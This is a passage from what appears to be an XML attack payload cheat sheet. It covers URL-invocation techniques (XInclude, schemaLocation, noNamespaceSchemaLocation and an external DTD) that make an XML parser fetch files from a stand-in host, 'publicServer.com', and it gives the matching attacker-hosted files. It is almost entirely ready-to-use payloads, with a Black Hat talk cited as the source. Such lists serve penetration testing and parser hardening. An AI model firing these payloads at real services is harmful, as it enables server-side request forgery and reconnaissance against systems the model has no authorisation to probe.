   
File stored on _http://publicServer.com/url_invocation_parameterEntity.dtd_  
  
```xml
<!ELEMENT data2 (#ANY)>
```

  
[Source](https://media.blackhat.com/eu-13/briefings/Osipov/bh-eu-13-XML-data-osipov-slides.pdf)  

### XInclude

```xml
<?xml version='1.0'?>  
<data xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include href="http://publicServer.com/file.xml"></xi:include></data>
```
  
File stored on _http://publicServer.com/file.xml_  

```xml
<?xml version='1.0' encoding='utf-8'?><data>it_works</data>
```
  
### schemaLocation

```xml
<?xml version='1.0'?>  
<ttt:data xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  
  xmlns:ttt="http://test.com/attack"  
xsi:schemaLocation="http://publicServer.com/url_invocation_schemaLocation.xsd">4</ttt:data>
```
  
File stored on _http://publicServer.com/url_invocation_schemaLocation.xsd_  
  
```xml
<?xml version="1.0" encoding="UTF-8"?>  
<xs:schema  
     xmlns:xs="http://www.w3.org/2001/XMLSchema">  
 <xs:element name="data" type="xs:string"/>  
</xs:schema>
```
  
or use this file  
  
```xml
<?xml version="1.0" encoding="UTF-8"?>  
<xs:schema  
     xmlns:xs="http://www.w3.org/2001/XMLSchema"  
 targetNamespace="http://test.com/attack">  
 <xs:element name="data" type="xs:string"/>  
</xs:schema>
```
  

### noNamespaceSchemaLocation

```xml
<?xml version='1.0'?>  
<data xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  
xsi:noNamespaceSchemaLocation="http://publicServer.com/url_invocation_noNamespaceSchemaLocation.xsd">4</data>
```
  
